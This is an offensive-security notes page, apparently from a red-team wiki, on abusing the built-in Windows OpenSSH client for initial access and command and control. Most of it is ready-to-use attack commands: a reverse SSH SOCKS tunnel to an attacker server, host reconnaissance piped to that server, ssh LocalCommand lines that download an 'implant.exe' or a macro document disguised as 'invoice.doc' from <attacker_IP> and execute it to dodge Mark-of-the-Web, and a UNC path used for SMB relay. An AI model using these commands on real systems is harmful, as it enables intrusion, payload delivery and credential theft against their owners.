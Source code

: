 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-foreign-land
  - living-off-the-land
  - windows
---
```

# Remote Clients

## SSH

Refer to this [[04 - Remote Port Forwarding|section]] for remote port forwarding to configure the user without any requirement for authentication.

### Reverse Tunneling SOCKS Proxy

Instead of dropping malware instead we'll use `proxychains` or `privoxy` with the SSH server (the attacker's server) as the command and control which is legitimate, safer, and more familiar performing things remotely. This is considered as a non-malware implant.

```
C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] -NTfCqR [127.0.0.1:]<SOCKS_proxy> -o "StrictHostKeyChecking=no"
%SYSTEMDIRECTORY%\OpenSSH\ssh.exe [-p <PORT>] -NTfCqR [127.0.0.1:]<SOCKS_proxy> -o "StrictHostKeyChecking=no"
```

In the SSH server we should see a listening port of the SOCKS Proxy.

```
$ ss -antpl
```

However, there is a limitation since it contains no limitation. To resolve this issue you must perform local enumeration to gather information of the compromised target that was established via SSH. Include a shell scripting file or a custom dropper containing commands to automate the process. It doesn't have to be all of them but the more the better. At least collect the IPv4 address.

```
ipconfig /all | C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] "cat - > %COMPUTERNAME%_IP_configuration.txt"
ipconfig /all | %SYSTEMDIRECTORY%\OpenSSH\ssh.exe [-p <PORT>] "cat - > %COMPUTERNAME%_IP_configuration.txt"
```

### Download File and Execute

Transfer file to the system.

```
C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] -o "StrictHostKeyChecking=no PermitLocalCommand=yes" -o "LocalCommand=scp [-P <PORT>] <username>@<attacker_IP>:implant.exe %AppData%\Microsoft\Templates\implant.exe\. && %AppData%\Microsoft\Templates\implant.exe" <username>@<attacker_IP>
```

TODO: This can be used to transfer embedded macro document to bypass MOTW.

```
C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] -o "StrictHostKeyChecking=no PermitLocalCommand=yes" -o "LocalCommand=scp [-P <PORT>] <username>@<attacker_IP>:macro_document.doc %AppData%\Microsoft\Templates\invoice.doc\. && %AppData%\Microsoft\Templates\invoice.doc" <username>@<attacker_IP>
```

### SMB Relay

For SSH server it doesn't to be from an attacker side. It can a real one as long the UNC path is set in order to execute command to perform SMB relay attack.

```
C:\> ssh -i \\<attacker_IP>\key.pem root@<IP>
```

---
## References

### Backlinks

- [[SCP|File Transfer: SCP]]

### LOLBAS

- [LOLBAS: SSH](https://lolbas-project.github.io/lolbas/Binaries/Ssh/)

### Bitsadmin

- [BITSADMIN Blog: Living Off the Foreign Land](https://blog.bitsadmin.com/living-off-the-foreign-land-windows-as-offensive-platform)

### RedSiege

- [RedSiege: SSHishing - Abusing Shortcut Files and the Windows SSH Client for Initial Access](https://redsiege.com/blog/2024/04/sshishing-abusing-shortcut-files-and-the-windows-ssh-client-for-initial-access/)
